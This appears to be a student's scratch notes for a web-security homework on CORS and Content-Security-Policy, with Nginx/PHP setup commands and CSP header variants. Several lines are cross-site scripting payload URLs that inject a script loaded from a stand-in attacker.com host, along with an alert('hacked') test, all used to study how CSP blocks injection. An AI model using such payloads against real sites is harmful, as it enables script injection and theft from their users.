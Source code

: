 ##

###
https://developer.mozilla.org/en-US/docs/Web/API/HTMLImageElement

### Task 1
sudo cp -t /var/www/cookie-research/html/ ./06_homework/t1.html

Cross-Origin Request Blocked: The Same Origin Policy disallows reading the remote resource at http://victim.com/test.txt. (Reason: CORS header ‘Access-Control-Allow-Origin’ missing). Status code: 404.

### Php installation and Nginx integration
apt search php*-fpm
sudo apt install php-fpm
systemctl status php8.1-fpm.service 
sudo nano /etc/nginx/sites-available/default
sudo nginx -t
sudo systemctl restart nginx
sudo nano /var/www/html/info.php

### 
victim.com/csp.php?js=<script/src=//attacker.com/evil.js></script>
attacker.com/csp.php?js=<script/src=//attacker.com/evil.js></script>

add_header Content-Security-Policy "script-src 'none';";
add_header Content-Security-Policy "script-src 'self';";


###
http://victim.com/hw-6-3.php?name=<script>alert("hacked")</script>

http://sub.victim.com
add_header Content-Security-Policy "script-src http://victim.com;";
add_header Content-Security-Policy "script-src http://victim.com http://sub.victim.com;";

###
add_header Content-Security-Policy "script-src 'unsafe-eval' http://victim.com http://partner.com http://home.victim.com;";
http://victim.com/hw-6-4.html?text=123

